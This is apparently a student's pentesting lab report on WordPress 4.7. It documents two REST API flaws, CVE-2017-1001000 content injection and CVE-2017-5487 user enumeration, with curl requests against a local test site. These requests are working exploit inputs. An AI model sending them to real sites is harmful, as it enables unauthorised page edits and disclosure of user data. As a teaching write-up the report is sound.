 # Project 7 - WordPress Pentesting

Time spent: **5** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. CVE-2017-1001000
  - [x] Summary: The register_routes function in wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php in the REST API in WordPress 4.7.x before 4.7.2 does not require an integer identifier, which allows remote attackers to modify arbitrary pages via a request for wp-json/wp/v2/posts followed by a numeric value and a non-numeric value, as demonstrated by the wp-json/wp/v2/posts/123?id=123helloworld URI.	
    - Vulnerability types: Privalige escalation
    - Tested in version: 4.7
    - Fixed in version: 4.7.2
  - [x] GIF Walkthrough: ![](https://imgur.com/a/GsrEu)
  - [x] Steps to recreate: Privilage Escalation.  Using the REST api, a URL post request can bypass the authentcation check and allow a non-authenticated user to make changes to a post.

        Valid request:  curl -X POST http://wpdistillery.dev/wp-json/wp/v2/posts/123?id=5 -d '{"content":"hcked content"}'
        Expected output: Status 401

        Invalid request: curl -X POST http://wpdistillery.dev/wp-json/wp/v2/posts/123?id=5abc -d '{"content":"hcked content"}'
        By adding the string 'abc" to the end of the post id(5) and reqesting a post which doesnt exist(123), I now have access to change content.
  - [x] Affected source code: https://github.com/WordPress/WordPress/commit/e357195ce303017d517aff944644a7a1232926f7
    -[Link 1]https://www.cvedetails.com/cve/CVE-2017-1001000/ 
    
2.  CVE-2017-5487
  - [x] Summary:  wp-includes/rest-api/endpoints/class-wp-rest-users-controller.php in the REST API implementation in WordPress 4.7 before 4.7.1 does not properly restrict listings of post authors, which allows remote attackers to obtain sensitive information via a wp-json/wp/v2/users request.	
    - Vulnerability types: Obtain Information
    - Tested in version: 4.7
    - Fixed in version: 4.7.1
  - [x] GIF Walkthrough: ![]https://imgur.com/a/BubW1)
  - [x] Steps to recreate: curl -X GET http://wpdistillery.dev/wp-json/wp/v2/users
  - [x] Affected source code: https://github.com/WordPress/WordPress/commit/daf358983cc1ce0c77bf6d2de2ebbb43df2add60
    - [Link 1](https://www.cvedetails.com/cve/CVE-2017-5487/)
    
    
## Assets

## Resources

- [CVE Details](https://www.cvedetails.com/)
- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).
GIFs hosted on imgur.com

## Notes

Finding a suitable version of wordpress was a small challange.  My biggest change was time restraints with other classes.  Due to these, I was unable to find and execute a third exploit. 

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
